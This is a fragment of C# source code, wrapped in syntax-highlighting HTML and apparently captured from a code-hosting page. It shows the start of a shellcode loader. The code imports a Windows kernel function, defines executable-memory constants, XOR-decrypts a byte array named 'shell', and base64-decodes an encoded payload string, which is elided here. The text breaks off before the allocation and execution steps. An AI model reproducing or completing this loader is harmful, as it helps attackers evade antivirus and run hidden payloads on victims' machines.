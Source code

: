   <span class="token punctuation">[</span><span class="token attribute"><span class="token class-name">DllImport</span><span class="token attribute-arguments"><span class="token punctuation">(</span><span class="token string">"kernel32"</span><span class="token punctuation">)</span></span></span><span class="token punctuation">]</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token keyword">extern</span> <span class="token return-type class-name">UInt32</span> <span class="token function">WaitForSingleObject</span><span class="token punctuation">(</span><span class="token class-name">IntPtr</span> hHandle<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> dwMilliseconds<span class="token punctuation">)</span><span class="token punctuation">;</span>

  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token class-name">UInt32</span> MEM_COMMIT <span class="token operator">=</span> <span class="token number">0x1000</span><span class="token punctuation">;</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token class-name">UInt32</span> PAGE_EXECUTE_READWRITE <span class="token operator">=</span> <span class="token number">0x40</span><span class="token punctuation">;</span>
  
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token return-type class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> <span class="token function">xor</span><span class="token punctuation">(</span><span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> shell<span class="token punctuation">,</span> <span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> KeyBytes<span class="token punctuation">)</span>
        <span class="token punctuation">{</span>
            <span class="token keyword">for</span> <span class="token punctuation">(</span><span class="token class-name"><span class="token keyword">int</span></span> i <span class="token operator">=</span> <span class="token number">0</span><span class="token punctuation">;</span> i <span class="token operator">&lt;</span> shell<span class="token punctuation">.</span>Length<span class="token punctuation">;</span> i<span class="token operator">++</span><span class="token punctuation">)</span>
            <span class="token punctuation">{</span>
                shell<span class="token punctuation">[</span>i<span class="token punctuation">]</span> <span class="token operator">^=</span> KeyBytes<span class="token punctuation">[</span>i <span class="token operator">%</span> KeyBytes<span class="token punctuation">.</span>Length<span class="token punctuation">]</span><span class="token punctuation">;</span>
            <span class="token punctuation">}</span>
            <span class="token keyword">return</span> shell<span class="token punctuation">;</span>
        <span class="token punctuation">}</span>
  <span class="token keyword">public</span> <span class="token keyword">static</span> <span class="token return-type class-name"><span class="token keyword">void</span></span> <span class="token function">Main</span><span class="token punctuation">(</span><span class="token punctuation">)</span>
  <span class="token punctuation">{</span>

    <span class="token class-name"><span class="token keyword">string</span></span> dataBS64 <span class="token operator">=</span> <span class="token string">"qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE="</span><span class="token punctuation">;</span>
    <span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> data <span class="token operator">=</span> Convert<span class="token punctuation">.</span><span class="token function">FromBase64String</span><span class="token punctuation">(</span>dataBS64<span class="token punctuation">)</span><span class="token punctuation">;</span>
